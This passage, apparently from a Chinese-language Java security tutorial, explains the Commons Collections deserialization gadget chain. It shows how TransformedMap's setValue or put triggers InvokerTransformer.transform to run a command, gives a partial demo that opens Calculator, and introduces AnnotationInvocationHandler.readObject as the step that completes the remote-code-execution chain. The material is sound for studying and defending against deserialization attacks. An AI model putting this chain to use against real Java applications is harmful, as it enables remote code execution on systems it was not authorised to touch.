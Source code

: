 只要调用`TransformedMap`的`setValue/put/putAll`中的任意方法都会调用`InvokerTransformer`类的`transform`方法，从而也就会触发命令执行。

**使用`TransformedMap`类的setValue触发transform示例：**

```java
public static void main(String[] args) {
   String cmd = "open -a Calculator.app";

	 // 此处省去创建transformers过程，参考上面的demo

   // 创建ChainedTransformer调用链对象
   Transformer transformedChain = new ChainedTransformer(transformers);

   // 创建Map对象
   Map map = new HashMap();
   map.put("value", "value");

   // 使用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
   Map transformedMap = TransformedMap.decorate(map, null, transformedChain);

   // transformedMap.put("v1", "v2");// 执行put也会触发transform
  
   // 遍历Map元素，并调用setValue方法
   for (Object obj : transformedMap.entrySet()) {
      Map.Entry entry = (Map.Entry) obj;

      // setValue最终调用到InvokerTransformer的transform方法,从而触发Runtime命令执行调用链
      entry.setValue("test");
   }

   System.out.println(transformedMap);
}
```

上述代码向我们展示了只要在Java的API中的任何一个类实现了`java.io.Serializable`接口，并且可以传入我们构建的`TransformedMap`对象还要有调用`TransformedMap`中的`setValue/put/putAll`中的任意方法一个方法的类，我们就可以在Java反序列化的时候触发`InvokerTransformer`类的`transform`方法实现`RCE`。

## `AnnotationInvocationHandler`

`sun.reflect.annotation.AnnotationInvocationHandler`类实现了`java.lang.reflect.InvocationHandler`(`Java动态代理`)接口和`java.io.Serializable`接口，它还重写了`readObject`方法，在`readObject`方法中还间接的调用了`TransformedMap`中`MapEntry`的`setValue`方法，从而也就触发了`transform`方法，完成了整个攻击链的调用。

**`AnnotationInvocationHandler代码片段：`**

```java
package sun.reflect.annotation;

class AnnotationInvocationHandler implements InvocationHandler, Serializable {
	
  AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
    // 省去代码部分
  }
  
  // Java动态代理的invoke方法
  public Object invoke(Object var1, Method var2, Object[] var3) {
    // 省去代码部分
  }
  
  private void readObject(ObjectInputStream var1) {
  	// 省去代码部分
  }
  
}
```